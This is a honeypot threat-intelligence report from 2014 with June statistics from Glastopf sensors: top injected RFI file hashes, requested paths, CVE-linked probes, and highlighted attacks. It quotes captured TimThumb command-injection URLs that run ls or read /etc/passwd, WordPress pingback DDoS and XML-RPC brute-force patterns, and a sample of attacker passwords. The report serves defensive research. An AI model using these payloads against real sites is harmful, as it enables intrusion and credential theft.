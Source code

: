 ```yaml
---
title: "Global Glastopf statistics for June 2014"
authors: ["Mikael Keri"]
date: "2014-08-08"
tags: 
  - "glastopf"
  - "logs"
  - "reports"
  - "statistics"
---
```

{{<figure src="images/banner.png" alt="Banner" width="50%">}}

**During the month of June the following information was obtained from Glastopf installations worldwide**

**Geographical spread**

![](images/drupal_image_1181.png)

**10 most popular injected files during the period**

Short introduction to RFI:

“Remote File Inclusion (RFI) is a type of vulnerability most often found on websites. It allows an attacker to include a remote file, usually through a script on the web server. The vulnerability occurs due to the use of user-supplied input without proper validation. This can lead to something as minimal as outputting the contents of the file or more serious events such as: Code execution on the web server .. “ source: Wikipedia

<table><tbody><tr><td><strong>Hash</strong></td><td><strong>Hits</strong></td><td><strong>VirusTotal detection ratio</strong></td></tr><tr><td>30a7bb30303f7da9ad102edc313dc80e</td><td>929</td><td>0 / 52</td></tr><tr><td>ab4d03072cc0532afc83d13854ed7e4f</td><td>577</td><td>22 / 49</td></tr><tr><td>474c4daeff3d82ae49d7c96acb8c0d84</td><td>514</td><td>21 / 53</td></tr><tr><td>9f67913d2c77545a4187053ad18230e4</td><td>496</td><td>7 / 52</td></tr><tr><td>369aab6f3a40d0259e6b036b68c27d25</td><td>411</td><td>7 / 54</td></tr><tr><td>10b5c4f77bbd80a3886e591dc3426198</td><td>267</td><td>N / A</td></tr><tr><td>6427bb17f4922b82c0147099429cfef9</td><td>203</td><td>3 / 53</td></tr><tr><td>be52cd4e8a8f6e42418c87d3468bba20</td><td>191</td><td>9 / 51</td></tr><tr><td>f922514cec9b9dc9c74b99ce9e39d3bc</td><td>164</td><td>15 / 53</td></tr><tr><td>46f5757064a2a0a081d6fd099f2916b5</td><td>159</td><td>18 / 46</td></tr></tbody></table>

Note: VirusTotal scan was performed on the 20:th of July 2014. N/A means that the injected binary was no longer present at it's original location and no sample could be acquired

**Top pick from list of requested resources**

Glastopf is a web application Honeypot which emulates vulnerabilities and lures the attacker that the requested service/application is vulnerable to gather data from attacks targeting web applications.

<table><tbody><tr><td><strong>Resource</strong></td><td><strong>Count</strong></td></tr><tr><td>admin</td><td>467194</td></tr><tr><td>administrator/index.php</td><td>73285</td></tr><tr><td>changes.html</td><td>13193</td></tr><tr><td>wp-login.php</td><td>11248</td></tr><tr><td>awstats/awstats.pl</td><td>9961</td></tr><tr><td>robots.txt</td><td>8620</td></tr><tr><td>xmlrpc.php</td><td>8175</td></tr><tr><td>index.php?app=core&amp;module=global§ion=login&amp;do=process</td><td>7339</td></tr><tr><td>phpMyAdmin-2.5.5/index.php</td><td>3738</td></tr><tr><td>phpMyAdmin-2.5.5-pl1/index.php</td><td>3712</td></tr><tr><td>awstats/awstats.pl?framename=mainright&amp;output=refererpages</td><td>3538</td></tr></tbody></table>

**Other requests that are interesting to highlight**

<table><tbody><tr><td><strong>Resource</strong></td><td><strong>Reference</strong></td><td><strong>CVE</strong></td></tr><tr><td>plugin_googlemap2_proxy.php</td><td>http://securityvulns.ru/docs29645.html</td><td>CVE-2013-4764</td></tr><tr><td>HNAP1/</td><td>http://tools.cisco.com/security/center/viewAlert.x?alertId=32899</td><td>CVE-2013-5122</td></tr><tr><td>rom-0</td><td>http://www.exploit-db.com/exploits/33803/</td><td>CVE-2014-4019</td></tr><tr><td>cgi-bin/rtpd.cgi</td><td>http://www.coresecurity.com/advisories/d-link-ip-cameras-multiple-vulnerabilities</td><td>CVE-2013-1599</td></tr></tbody></table>

**And a few findings that we found extra interesting**

**TimThumb Remote Code Execution: webshot**

**About**

TimThumb is a small php script for cropping, zooming and resizing web images (jpg, png, gif).

**Exploitation**

`http:///wp-content/themes//path/to/timthumb.php?webshot=1&src=http:// $()`

Please see the URL below for more information about this vulnerability **URL** http://cxsecurity.com/issue/WLB-2014060134

**Example of collected requests** `http:///wp-content/themes/eGallery/HTTP/wp-content/themes/eGallery/timthumb.php?webshot=1&src=http:///$(ls)`

http:///wp-content/themes/eGallery/HTTP/wp-content/themes/eGallery/timthumb.php?webshot=1&src=http:///$(touch$IFS/tmp/a.txt)

`http:///wp-content/themes/eGallery/HTTP/wp-content/themes/eGallery/timthumb.php?webshot=1&src=http:// /$(cat$IFS/etc/passwd)`

**WordPress Pingback.ping DDoS attempts**

**About**

pingback.ping, is a legit WordPress feature misused to DoS victims using legit WordPress sites.

Please see the URL below for more information about this vulnerability **URL** http://blog.sucuri.net/2014/03/more-than-162000-wordpress-sites-used-for-distributed- denial-of-service-attack.html

**Exploitation**

`pingback.pinghttp://victim.com www.anywordpresssite.com/postchosenparam>'`

**Victims per category**

In an attempt to visualise the type of targets for these attacks we took the help of the public available resource: sitereview.bluecoat.com to categorise the targeted sites

![](images/drupal_image_1182.png)

Many of the sites categorised as not yet rated by the webfilter vendor, ended up being sites offering DDoS services, many of them protected by legit DDoS protection services.

**WordPress wp.getUsersBlogs brute force attempts**

**Comment** We were able to quickly detect wp.getUserBlogs attempts when they "started", now a month later there are several blog post describing the issue.

The first occurrences detected was on the 29:th of June, targeting only a limited amount of Honeypots and originated from two European countries.

**About** "This attack is being made possible because many calls in the WordPress XMLRPC implementation required a username and password. It these attacks, we are seeing wp.getUsersBlogs being used (and very few times wp.getComments), but it could be other calls as well. If you provide a user and a password to them, it will reply back if the combination is correct or not:" sucuri.net

Please see the URL below for more information about this vulnerability **URL** http://blog.sucuri.net/2014/07/new-brute-force-attacks-exploiting-xmlrpc-in-wordpress.html

**Exploitation** `wp.getUsersBlogs admin112233`

**Passwords**

The list is quite long, so here is a small sample

<table><tbody><tr><td>password</td><td>melody</td><td>master</td></tr><tr><td>gogogo</td><td>"name of the domain"</td><td>admin</td></tr><tr><td>12345678</td><td>trustno1</td><td>test</td></tr><tr><td>secret</td><td>reset123</td><td>qwerty123</td></tr><tr><td>pass</td><td>fuck</td><td>audrey</td></tr><tr><td>admin123</td><td>1qaz2wsx</td><td>123</td></tr><tr><td>12345</td><td>123456</td><td>123456789</td></tr><tr><td>1111</td><td>zaq12wsx</td><td>yellow</td></tr><tr><td>wisdom</td><td>winter</td><td>windows</td></tr></tbody></table>

**Summary**

This was a small excerpt from the collected data. I hope this encouraged you to continue to have hpfeeds enabled (or to enable it, if you have turned it off) on your honeypot/honeypots as the data gives a very valuable insight into current threats globally.

**System reference:**

“Glastopf is a Honeypot which emulates thousands of vulnerabilities to gather data from attacks targeting web applications. The principle behind it is very simple: Reply the correct response to the attacker exploiting the web application.”

For more information please visit: **URL** http://www.glastopf.org/index.php or https://github.com/glastopf/glastopf

All data was collected using hpfriends, for more information please visit **URL** http://hpfriends.honeycloud.net/
